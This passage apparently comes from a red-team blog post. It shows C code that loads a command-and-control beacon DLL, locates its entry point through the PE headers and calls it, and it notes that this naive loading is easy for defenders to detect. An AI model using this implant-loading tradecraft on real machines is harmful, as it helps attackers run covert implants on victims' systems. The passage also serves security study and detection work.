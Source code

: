   <figcaption><i>Fig.1 - OPSEC Warning.</i></figcaption>
</figure>
<br>

In the following code snippet we can see how we would normally load a DLL and find the DLL entry point dynamically.

```c
#include <windows.h>
#include <stdio.h>

// Navigate to the PE headers.
// Extract the entry point RVA from the PE headers.
DWORD GetEntryPointRVA(void* baseAddress) {
    IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)baseAddress;
    IMAGE_NT_HEADERS* ntHeaders = (IMAGE_NT_HEADERS*)((BYTE*)baseAddress + dosHeader->e_lfanew);
    return ntHeaders->OptionalHeader.AddressOfEntryPoint;
}

void main(){
    // LoadLibrary will load raw file beacon DLL from disk to VA space of process
    // After loading, LoadLibrary wilt call virtual beacon DLLs entrypoint as DLLMAIN,
    // with fdwReason=1 (DLL init)
    void* Beacon_BaseAddress = LoadLibraryA("beacon.dll");
    if (!Beacon_BaseAddress) {
        DWORD error = GetLastError();
        printf("[-] LoadLibraryA failed with error code: %lu\n", error);
        return;
    }
    printf("[+] beacon.dll base address: %p \n", Beacon_BaseAddress) ;

    // find the entry point of beacon.dll
    DWORD entryPointRVA = GetEntryPointRVA(Beacon_BaseAddress);
    printf("[+] entry point RVA: 0x%X\n", entryPointRVA);

    void* Beacon_EntryPoint = ( (char*) Beacon_BaseAddress + entryPointRVA);
    printf("[+] beacon.dll entry point: %p \n", Beacon_EntryPoint);

    BOOL (* Beacon_DLLMAIN) (void* hinstDLL, int fdwReason, void* lpvReserved) = Beacon_EntryPoint;
    // Call virtual beacon DLLs Entry Point with fdwReason=4
    Beacon_DLLMAIN( Beacon_BaseAddress, 0x4,NULL) ;
}
```

<br>

Compiling the code and executing it on a victim machine will give us the following result. On the screenshot we clearly see that `beacon.dll` being loaded by our process, **allowing for many detection opportunities**.

<figure>